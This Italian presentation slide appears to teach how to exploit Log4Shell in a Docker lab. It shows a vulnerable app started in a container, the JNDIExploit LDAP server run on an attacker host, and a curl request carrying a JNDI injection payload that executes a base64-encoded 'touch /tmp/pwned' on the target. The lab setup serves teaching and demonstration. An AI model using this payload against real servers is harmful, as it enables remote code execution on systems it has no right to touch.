

Esempio 1: Creazione di un file
T
13
Avvio della macchina vulnerabile tramite docker (ip: 10.0.2.4)
🠺

docker run --name vulnerable-app --network="host" -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
🠺
Avvio del server LDAP sulla macchina dell’attaccante (ip: 10.0.2.15)
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i  10.0.2.15 -p 8888
Convertiamo il comando touch /tmp/pwned  in base64
echo –n ’touch /tmp/pwned’ | base64

dG91Y2ggL3RtcC9wd25lZAo=
Tramite il comando curl effettuiamo una richiesta verso il server vittima
curl 10.0.2.4:8080 -H 'X-Api-Version: ${jndi:ldap://10.0.2.15:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'